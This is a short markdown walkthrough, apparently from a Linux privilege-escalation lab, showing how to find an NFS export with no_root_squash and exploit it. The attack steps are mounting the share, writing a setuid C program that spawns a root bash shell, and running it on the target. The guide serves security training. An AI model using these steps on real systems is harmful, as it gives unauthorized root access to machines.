 [[Linux Privilege Escalation]]
**Detection**
Linux VM
1. In command line type:
```bash
cat /etc/exports
```


> 2. From the output, notice that “no_root_squash” option is defined for the “/tmp” export.

**Exploitation**
Attacker VM
  1. Open command prompt and type:
```bash
 showmount -e {target IP}
```
2. In command prompt type:
```bash
 mkdir /tmp/1
```
3. In command prompt type:
```bash
 mount -o rw,vers=2 {target IP}:/tmp /tmp/1
```

In command prompt type:

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
```
4. In command prompt type: 
```bash
gcc /tmp/1/x.c -o /tmp/1/x
```
5. In command prompt type: 
```bash
chmod +s /tmp/1/x
```

Linux VM
1. In command prompt type: 
```bash
/tmp/x
```
2. In command prompt type:
```bash
 id
```